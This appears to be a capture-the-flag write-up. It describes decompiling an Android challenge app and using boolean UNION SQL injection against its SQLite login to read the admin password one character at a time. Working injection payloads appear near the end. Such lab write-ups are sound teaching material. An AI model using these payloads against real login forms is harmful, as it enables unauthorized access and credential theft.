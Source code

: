 # True or false?
## Description
True or false, we can log in as admin easily.

The description hints that the admin login has a boolean SQL injection, with that in mind, I tried some simple SQL injection,
found this little hint by click "Forget Password"
![ ](./../resources/hint.jpg?raw=true)

Without knowing what type of SQL it could be, I went to decompile the apk to get an answer.
```
sudo apt install jadx dex2jar
```
![ ](./../resources/dex.jpg?raw=true)</br>
Start jadx-gui and open the jar file</br>
![ ](./../resources/jadx.jpg?raw=true)</br>
The app uses SQLite as its database</br>
![ ](./../resources/sqlite.jpg?raw=true)</br>
<br>
<br>
After many google searches later, I came across this [ExploitDB PDF](https://www.exploit-db.com/docs/english/41397-injecting-sqlite-database-based-applications.pdf)</br>
With that our goal is to get a "true" from the admin login.</br>
![ ](./../resources/sqltest.jpg?raw=true)</br>
Now that we know UNION sql injection works, we just need to figure out how to get the password.</br>
<br>
From the "reset password" hint, we know that the "Users" table exist and "admin" too.</br>
I got this to work:</br>
![ ](./../resources/boolean.jpg?raw=true)

Explanation of how the SQLi works:
We know that from the "Users" table, there is most likely a "username" column with "admin" in it
|      Users    |               |
| ------------- | ------------- |
| username      | admin         |

substr(username,1,1) = substr("admin",1,1)</br>
substr(string,position,length)</br>
username,1,1 = a</br>
username,1,2 = ad</br>
username,2,1 = d</br>
username,2,2 = dm</br>
<br>
<br>
<br>
So we can test whether it's more or less or equal</br>
<br>
hex('a') = 61</br>
hex('z') = 7A</br>
<br>
hex('a') = hex('a') (True)</br>
hex('a') > hex('a') (False)</br>
hex('a') < hex('a') (False)</br>
<br>
hex('a') = hex('z') (False)</br>
hex('a') > hex('z') (False)</br>
hex('a') < hex('z') (True)</br>

This time we use password column (;-; 32 words to guess, tried burp but nothing)<br>
' union select password from Users where hex(substr(password,1,1))=hex('M')-- -<br>
' union select password from Users where hex(substr(password,2,1))=hex('y')-- -<br>
' union select password from Users where hex(substr(password,3,1))=hex('_')-- -<br>
...</br>
![ ](./../resources/login.jpg?raw=true)
![ ](./../resources/admin.jpg?raw=true)
